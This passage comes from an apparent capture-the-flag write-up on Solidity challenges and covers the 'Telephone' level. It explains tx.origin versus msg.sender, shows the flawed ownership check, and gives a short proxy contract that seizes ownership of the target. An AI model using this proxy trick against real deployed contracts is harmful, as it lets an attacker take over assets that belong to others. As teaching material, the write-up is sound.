 Never put sources of randomness on-chain.

## Telephone

### Reference

There are two different ways of designating transaction sources in Solidity:

- `tx.origin`
- `msg.sender`

Suppose there's a call chain:

`Alice → Smart Contract A → Smart Contract B`

Relative to `Smart Contract B`:

- `Alice` is `tx.origin`
- `Smart` is `msg.sender`

So `tx.origin` designates the original source of transaction, while
`msg.sender` designates the last caller in the call chain.

Therefore by creating a proxy contract one can get different `msg.sender` and
`tx.origin` for the same transaction.

### Vulnerability

```solidity
    ...
    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
    ...
```

### Solution

```solidity
contract HackTelephone {
    constructor(address _target) {
        Telephone(_target).changeOwner(msg.sender);
    }
}
```

Upon deployment the challenge is solved.

### Key takeaway

Be vary of the difference between `tx.origin` and `msg.sender` when designing
your smart contract logic.

## Token
